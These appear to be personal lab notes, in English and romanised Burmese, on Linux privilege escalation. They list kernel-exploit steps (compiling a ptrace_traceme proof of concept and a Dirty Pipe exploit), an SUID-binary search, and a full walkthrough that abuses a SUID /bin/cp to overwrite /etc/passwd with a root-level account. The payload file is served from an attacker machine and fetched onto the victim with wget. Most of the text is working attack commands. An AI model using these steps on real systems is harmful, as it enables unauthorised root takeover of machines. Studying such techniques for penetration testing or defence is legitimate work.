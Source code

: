 
file share htar dar ko mount loke dal => pee daw thu that mat htar dae user ko change b win twar dal 


id _rsa.pub => ssh public key
id_rsa  => ssh private key



------------------------------------------

Root Users =>  Privilege Escalation  => post exploitation

1. Misconfiguration
2.  SUID  => binary file
3.  Kernel Exploit

----
Kernel exploit
1. uname -a    => keren version     => 2019 ka may be exploit
2.  cat /etc/*release   =>  release version
3.  gcc run lot ya ya ml   => run lot ma ya yin kernel exploit lot ya chin ma ya mal

---

google kout yar mar  date twe version dwe ko take care 

---


Let's Root

wget urlpath/47163  -O poc.c   =>     download loke dar   

I use poc.c because look at the below 

![[Pasted image 20230116221054.png]]


gcc -s poc.c -o ptrace_traceme_root  => just copy paste

ls -al 

./ptrace_traceme_root

=====> but its not ok  

---
==> Dirty Cow htal mar lal privileges escellaction twe shi dal

==>  Dirty pipe exploit -> more update 

https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits   => Dirty Pipe link

we use exploit1.c

gcc exploit-1.c -o exploit2  =>  combine loke lite dar

./exploit2   => exploit 

=====> Kernel exploit is not working now   so we go to another method

----

SUID 

find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null      => ko root script  ****

we found /bin/cp  => we saw cp => and go to GTFO bin 

cat /etc/passwd /tmp/passwd.bk     => firstly we copy /etc/passwd file

=> in our local machine => subl exploit.txt

we past /etc/passwd   => everything in this file 

a pow sone ka root user ko copy cuu pee daw aunt sone mar twar htal dal => pee daw user ko creatigon lot pay lite dal

exp => creatigon:x:0:0:root:/root:/bin/bash

=> x nay yar ka password => format ka => openssl passwd -1 -salt 123 rootme
reault => $1$123$LrQry9bh26VDfIHdrYMAr1   => we have to replace this one

Final Result => creatigon:$1$123$LrQry9bh26VDfIHdrYMAr1:0:0:root:/root:/bin/bash


python3 -m http.server    => server create lite dar   => exploit.txt file shi dal nay yar mar

in victim server => cd /tmp

wget http://10.0.2.17:8000/exploit.txt    => download swal twar dar

cp exploit.txt  /etc/passwd

su creatigon 
password => rootme

----

##### Summary of this root case exploit => SUID -> copy exploit /etc/passwd 

